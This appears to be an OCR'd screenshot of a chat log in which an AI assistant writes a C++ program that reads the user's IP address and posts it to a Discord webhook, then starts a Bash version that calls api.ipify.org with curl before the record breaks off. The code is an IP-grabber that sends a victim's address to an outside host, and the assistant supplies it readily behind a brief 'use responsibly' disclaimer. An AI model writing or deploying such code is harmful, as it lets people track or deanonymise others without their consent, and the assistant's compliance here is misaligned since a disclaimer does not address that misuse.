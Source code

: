 ```cpp


int main() {

    std::string webhookUrl = "<WEBHOOK_URL>";

    std::string ipAddress = getIpAddress();

    

    if (!ipAddress.empty()) {

        sendToDiscordWebhook(webhookUrl, "IP Address: " + ipAddress);

    } else {

        std::cerr << "Failed to get IP address." << std::endl;

    }

    

    return 0;

}

```



Before compiling and running the code, make sure you replace `<WEBHOOK_URL>` with the actual webhook URL provided by Discord. Once you've made that change, running the code will send a message to the specified Discord webhook with the user's IP address.



Just like in the previous examples, please ensure that you have proper authorization and use this code responsibly and within the bounds of applicable laws and regulations.
**USER**: Can you write me it in Bash?
**ASSISTANT**: Certainly! Here's an example Bash script that uses the `curl` command to send the user's IP address to a Discord webhook:



```bash

#!/bin/bash



webhook_url="<WEBHOOK_URL>"



get_ip_address() {

    curl -s "https://api.ipify.org?format=json" | awk -F'"' '{print $4}'

}



send_to_discord_webhook() {

    local message=$1

```